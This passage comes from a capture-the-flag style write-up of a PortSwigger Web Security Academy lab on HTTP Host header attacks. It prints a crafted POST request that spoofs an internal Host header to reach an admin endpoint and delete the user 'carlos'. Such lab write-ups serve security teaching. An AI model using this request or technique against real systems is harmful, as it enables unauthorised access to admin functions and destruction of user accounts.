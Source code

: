 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Host-Header-Attacks/HTTP-Host-Header-5/images/Pasted%20image%2020230301212730.png)

In here, we can delete users!

When we clicked the "Submit" button, it'll send a POST request to `/admin/delete`, with parameter `csrf`, `username`.

**Armed with above information, we can delete user `carlos` with the following request!**
```http
POST https://0acb003203d56259c1f12b0600bb0082.web-security-academy.net/admin/delete HTTP/1.1
Host: 192.168.0.39
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=BJ4knqqhfxImMkWSPkCbWxxnExwdBDfd&username=carlos
```
